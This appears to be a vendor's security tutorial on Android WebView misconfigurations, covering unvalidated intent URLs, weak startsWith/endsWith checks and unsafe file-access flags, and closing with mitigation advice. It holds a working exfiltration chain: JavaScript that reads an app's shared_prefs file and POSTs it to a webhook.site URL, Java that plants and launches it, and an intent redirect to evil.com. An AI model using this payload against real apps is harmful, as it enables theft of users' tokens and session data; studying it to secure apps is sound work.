

    # Exploiting Webview In Wild
 
<!--  -->

## What is Webview
WebView is an Android component that provides functionality for developers to load web pages into mobile applications. It acts as a wrapper around the WebKit rendering engine, allowing web content to be displayed within an app.


WebView uses the WebKit rendering engine to display web pages and includes methods to navigate forward and backward through a history, as well as to zoom in and out.

## Webview Architecture


> Blink is Google Chrome’s rendering engine, V8 is the JavaScript Engine used within Blink, and Chromium is the browser project that holds them all together. Add a bit of Google product integration and Chromium becomes Google Chrome

Here is a list of some of the main classes and interfaces in the Android WebView API,

- WebView
- WebSettings
- WebViewClient
- WebChromeClient
- WebResourceRequest
- WebResourceResponse
- DownloadListener
- WebMessage
- WebMessagePort
- WebViewDatabase
- WebViewRenderProcess
- WebViewRenderProcessClient
- WebViewClientCompat
- WebViewRenderProcessClientCompat
- WebSettings.PluginState
- WebSettings.RenderPriority
- WebSettings.TextSize
- WebSettings.ZoomDensity
- WebViewClient.ErrorCode
- WebViewClient.RenderProcessGoneDetail
- WebViewClient.ShouldInterceptRequest
- WebViewClient.ShouldOverrideUrlLoading
- WebViewClient.onFormResubmission
- WebViewClient.onLoadResource
- WebViewClient.onPageCommitVisible
- WebViewClient.onPageFinished
- WebViewClient.onPageStarted
- WebViewClient.onReceivedClientCertRequest
- WebViewClient.onReceivedError
- WebViewClient.onReceivedHttpAuthRequest
- WebViewClient.onReceivedHttpError
- WebViewClient.onReceivedLoginRequest
- WebViewClient.onReceivedSslError
- WebViewClient.onScaleChanged
- WebViewClient.onUnhandledKeyEvent
- WebChromeClient.FileChooserParams
- WebChromeClient.CustomViewCallback
- WebChromeClient.onCreateWindow
- WebChromeClient.onCloseWindow
- WebChromeClient.onJsAlert
- WebChromeClient.onJsConfirm
- WebChromeClient.onJsPrompt
- WebChromeClient.onPermissionRequest
- WebChromeClient.onPermissionRequestCanceled
- WebChromeClient.onReceivedIcon
- WebChromeClient.onReceivedTitle
- WebChromeClient.onReceivedTouchIconUrl
- WebChromeClient.onShowCustomView
- **WebChromeClient.onShowFileChooser**


WebView supports a wide range of URL schemes, including:

- **`http`** and **`https`**: These are the most common URL schemes, used to access resources over the internet.
- **`file`**: This scheme is used to access resources on the device's file system.
- **`content`**: This scheme is used to access resources via a content URI.
- **`data`**: This scheme is used to access resources via a data URI.
- **`javascript`**: This scheme is used to execute JavaScript code in a WebView.
- **`about`**: This scheme is used to access built-in pages in the WebView, such as the error page.
- **`blob`**: This scheme is used to access resources via a blob URI.


## WebView Terminology

### 1. `loadData`
- **Description**: This method loads the given data into the `WebView` using a data scheme URL. It allows you to display raw HTML or other content directly.
- **Example**:
    ```java
    String unencodedHtml = "<html><body>'%28' is the code for '('</body></html>";
    String encodedHtml = Base64.encodeToString(unencodedHtml.getBytes(), Base64.NO_PADDING);
    webView.loadData(encodedHtml, "text/html", "base64");
    ```


### 2. `loadDataWithBaseURL`
- **Description**: This method loads data into the `WebView` with a base URL, allowing relative URLs within the loaded content to be resolved correctly. This is particularly useful when you have external resources (like images, CSS, or JavaScript) that need to be referenced relative to a specific base URL.
- **Syntax**:

    ```java
    public void loadDataWithBaseURL (String baseUrl, String data, String mimeType, String encoding, String historyUrl)
    ```
- **Parameters**:
  - **`baseUrl`**: The base URL that specifies where the file is placed. This could be a local path (e.g., an asset folder or SDCard) or a remote URL.
  - **`historyUrl`**: The URL to use as the history entry. If set to `null`, it defaults to `about:blank`. If non-null, it must be a valid URL.

- **Example**:

    ```java
    String htmlData = "<html><body></body></html>";
    webView.loadDataWithBaseURL("file:///android_asset/", htmlData, "text/html", "utf-8", null);
    ```

### 3. `loadUrl`
- **Description**: This method loads a given URL into the `WebView`. It is the most common way to load web pages, whether they are local files or remote web resources.
- **Syntax**:

    ```java
    public void loadUrl (String url)
    ```
- **Example**:

    ```java
    webView.loadUrl("https://www.example.com");
    ```

This method can be used to load any valid URL, including local files using the `file:///` scheme.


## Webview Misconfigrations

A common mistake developers make when using WebView is neglecting to implement proper validation on the data being loaded, especially when it comes from an Intent. This oversight can leave the application vulnerable, allowing attackers to load arbitrary and potentially harmful content into the WebView.

Without validation, any data passed to the WebView can be used to inject malicious scripts, redirect users to phishing sites, or exploit other vulnerabilities. This flexibility is dangerous, as attackers can craft Intent data to manipulate the WebView and compromise the security of the application and its users

Let's have a look some use cases:


###  **No Url Validation**

In the given use case, the developer is directly taking data from `getIntent()` and loading it into the `WebView` without proper validation. This approach is problematic because it can be easily exploited. For example, an attacker could manipulate the Intent data to include arbitrary or malicious content,




An attacker can send arbitrary data via Intent, which is then loaded directly into the WebView without proper validation. This allows the attacker to insert malicious content 

There are several methods through which an attacker can pass arbitrary intent data to a vulnerable component, including:

- **Exported Components**: Components that are declared as exported in the Android manifest, making them accessible to other applications. 

- **Intent Redirection**: Redirecting intents from one component to another to inject malicious data.

- **Deep Links**: Using deep links to pass data directly to components, potentially leading to security issues.

- **Implicit Intents**: Leveraging implicit intents that can be resolved by various components, potentially exposing vulnerabilities.

For now, we will focus on exported components. The other methods will be covered in later blogs

**Demonstration**

An attacker can send arbitrary url via intent that will be loaded by vulnerable application.


In a real-world scenario, exploitation becomes significantly easier because attackers can craft Intent URIs embedded within HTML pages. Here’s how this can be exploited:

An attacker can embed a specially crafted Intent URI in an HTML page and then send this page to a victim. When the victim opens the link in the HTML page, the malicious Intent URI is triggered, causing the vulnerable application to open and potentially execute malicious actions.

 - Craft Malicious Intent URI
    ```js  
    am to-intent-uri \
      -n com.safenodelabs/.MainActivity \
      -d 'https://evil.com'

    ```
- Embed in HTML Page
 
```html
<html>
  <script>
window.location.href= "intent://evil.com#Intent;scheme=https;component=com.safenodelabs/.MainActivity;end"
</script>
      </html> 
```


###  **Improper URL Validation**

Let's explore use cases where improper URL validation can lead to vulnerabilities like cross-site scripting (XSS) and open redirection.

:::danger [USE CASE 1 ] - Use of startsWith
:::


This implementation can be easily bypassed. Users can simply use a different domain name or include an @domain name in their input


:::danger [USE CASE 2 ] - Use of endssWith
:::
This implementation can be easily bypassed. Users can simply use a different perfix in domain name.

`https://abcdsafenodelabs.com`


Let's talk about the Webview Vulnerable Flag and their Exploitation


### Webview Vulnerable Flag & Their Exploitation

- **setJavaScriptEnabled(true)** : This flag enables JavaScript execution within the WebView.If JavaScript is enabled in a WebView that loads untrusted or user-controlled content, it opens the door for various attacks, including Cross-Site Scripting (XSS)

- **setAllowFileAccess** : Enables or disables file access within WebView. Note that this enables or disables file system access only. Assets and resources are still accessible using file:///android_asset and file:///android_res.
  
    The default value is true  for apps targeting `Build.VERSION_CODES.Q[29]` and below, and false when targeting `Build.VERSION_CODES.R` and above


- **setAllowFileAccessFromFileURLs**: As the name suggests, this method controls whether JavaScript running in the context of a file scheme URL (e.g., file://) can access content from other file scheme URLs. It does not allow access to content from any origin. Instead, it specifically governs access between files on the local file system.
   Let's Demonstrate  How it Works and how can be the targeted by Malicious Application


  Imagine you have an Android application that uses a WebView to load local HTML files stored on the device. By setting `setAllowFileAccessFromFileURLs(true)`, the application allows JavaScript running in a file URL context to access other files on the device.
  If a WebView in your application loads content from an attacker-controlled URL, and `setAllowFileAccessFromFileURLs(true)` is enabled, the attacker could potentially exfiltrate sensitive internal data such as tokens, session information, or other confidential files stored on the device.


  #### Demonstraion

    In this scenario, we'll examine how an attacker can exploit a WebView when it loads an attacker-controlled URL, with setAllowFileAccessFromFileURLs(true) enabled, and there's no validation on the data passed to the WebView.
    
    In the following vulnerable code, two flags are enabled: `setJavaScriptEnabled` and `setAllowFileAccessFromFileURLs`. This configuration permits the execution of JavaScript files from file URLs. Additionally, the URL passed through the intent is not validated and is directly loaded into the WebView, leaving it under the attacker’s control.
   

   


   - An attacker would need to save a file with the exfiltration code on the device and then send the file URI to the target app's `WebView` through an intent.

      **code**
        ```js
        <!DOCTYPE html>
        <html>
        <body>
        <h2>File Data Exfilirating</h2>

        <script>
            var xhr = new XMLHttpRequest();
            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE) {
                    console.log(xhr.responseText);
                    var xhr2 = new XMLHttpRequest();
                    xhr2.open("POST","server url", true);
                    xhr2.send(xhr.responseText);
                }
            }
            xhr.open('GET', 'file:///data/data/com.safenodelabs/shared_prefs/user.xml', true);
            xhr.send(null);
        </script>

        </body>
        </html>
        ```
    - An attacker can store this code into device storage somewhere and direcly pass the uri
     ```js
    public class FileHelper {

    public static void saveToExternalFile(Context context, String fileName, String fileContent) {
        FileOutputStream fos = null;
        try {
            // Get the root of the external storage directory
            File externalStorageDir = Environment.getExternalStorageDirectory();
            Log.d("FileHelper", "External Storage Directory: " + externalStorageDir.getAbsolutePath());

            if (externalStorageDir.canWrite()) {
                // Define the path where the file will be saved (root of the external storage)
                File file = new File(externalStorageDir, fileName);

                // Open a file output stream, creating the file if it doesn't exist
                fos = new FileOutputStream(file);
                // Write the file content
                fos.write(fileContent.getBytes());
                Log.d("FileHelper", "File saved to: " + file.getAbsolutePath());
            } else {
                Log.e("FileHelper", "External storage is not writable or does not exist.");
            }
        } catch (IOException e) {
            e.printStackTrace();
        } finally {
            if (fos != null) {
                try {
                    // Close the file output stream
                    fos.close();
                } catch (IOException e) {
                    e.printStackTrace();
                }
            }
        }
    }
     ```

    ```js
     String fileName = "exploit.html";
    String fileContent = "<!DOCTYPE html>\n" +
            "<html>\n" +
            "<body>\n" +
            "\n" +
            "<h2>Using the XMLHttpRequest Object</h2>\n" +
            "\n" +
            "\n" +
            "<script>\n" +
            "var xhr = new XMLHttpRequest();\n" +
            "xhr.onreadystatechange = function() {\n" +
            " if (xhr.readyState == XMLHttpRequest.DONE) {console.log(xhr.responseText);\n" +
            "var xhr2 = new XMLHttpRequest();\n" +
            "xhr2.open(\"POST\",\"https://webhook.site/3fe5acc2-a507-45dd-b928-c07c30dbe1d8\",true);\n" +
            "\n" +
            "xhr2.send(xhr.responseText);\n" +
            "}\n" +
            "}\n" +
            "xhr.open('GET', 'file:///data/data/com.safenodelabs/shared_prefs/user.xml', true);\n" +
            "xhr.send(null);\n" +
            "\n" +
            "</script>\n" +
            "\n" +
            "</body>\n" +
            "</html>\n";

    FileHelper.saveToExternalFile(this, fileName, fileContent);
    Intent intent = new Intent();
    intent.setClassName("com.safenodelabs","com.safenodelabs.MainActivity");

    intent.setData(Uri.parse("file:///storage/emulated/0/exploit.html"));
    startActivity(intent);


    ```
        <!--  -->


  :::danger   When `setAllowFileAccessFromFileURLs` is enabled, it allows JavaScript running in a      file:// context to access other local files via file:// URLs. However, if your exploit code is  hosted on a remote server (using an http:// or https:// URL), it operates in a different context, meaning it won't be able to access local resources directly due to security restrictions
  :::


  #### **setAllowUniversalAccessFromFileURLs**

  The `setAllowUniversalAccessFromFileURLs` setting in Android WebView permits web content loaded from local file URLs to make requests to any origin, `bypassing the same-origin policy`. This enables local files to interact with external web resources.
  This means that a web page loaded from a file:// URL can access and fetch data from any URL without encountering SOP protections.

  With `setAllowUniversalAccessFromFileURLs`, an attacker can exploit this setting to exfiltrate internal application data. By allowing web content loaded from local file URLs to make requests to any external URL, attackers can craft local files that send sensitive data from the application to a remote server. For example, an attacker could use this setting to transfer internal data, such as authentication tokens or user information, to a malicious server. This can be demonstrated in  [Exploit Demonstration](http://localhost:3000/docs/Exploiting-Webview#demonstraion).


  The only difference between `setAllowFileAccessFromFileURLs` and `setAllowUniversalAccessFromFileURLs` is that the latter allows an application to fetch responses from any remote URL when using file URLs. This setting bypasses all same-origin policy (SOP) protections, enabling unrestricted access to external resources. In contrast, `setAllowFileAccessFromFileURLs` only permits access between local file URLs and does not allow fetching remote content, maintaining SOP restrictions.

  :::danger   When `setAllowUniversalAccessFromFileURLs` is enabled, it allows JavaScript running in a      file:// context to access other local files via file:// URLs. However, if your exploit code is  hosted on a remote server (using an http:// or https:// URL), it operates in a different context, meaning it won't be able to access local resources directly due to  same-origin policy (SOP)  security restrictions
:::

### Recommendations
- Disable content access by calling `WebSettings.setAllowContentAccess(false)`.
- Disable file access by calling `WebSettings.setAllowFileAccess(false)` if your `minSdkVersion` is 29 or below.
- Disable file access from file URLs by calling `WebSettings.setAllowFileAccessFromFileURLs(false)` if your `minSdkVersion` is 15 or below.
- Disable universal file access from file URLs by calling `WebSettings.setAllowUniversalAccessFromFileURLs(false)` if your `minSdkVersion` is 15 or below.
- Ensure that any external links loaded in the WebView are properly validated by checking both the scheme and host.
- When executing JavaScript with externally obtained data, make sure the data is sanitized properly.
  
## Scan Report  from SafeNodeLabs
 ### Open Redirection & XSS
In this scan report from SafeNodeLabs, an open redirection and XSS vulnerability was detected. The issue occurs because data received from the intent is directly loaded into the WebView without any validation. Please find more details below.


:::tip SafeNodeLabs
Don’t wait—proceed now and make your apps robust against malicious attacks. Secure your apps with SafeNodeLabs—where safety meets innovation.

:::


🔗 Discover more at SafeNodeLabs and elevate your app security today!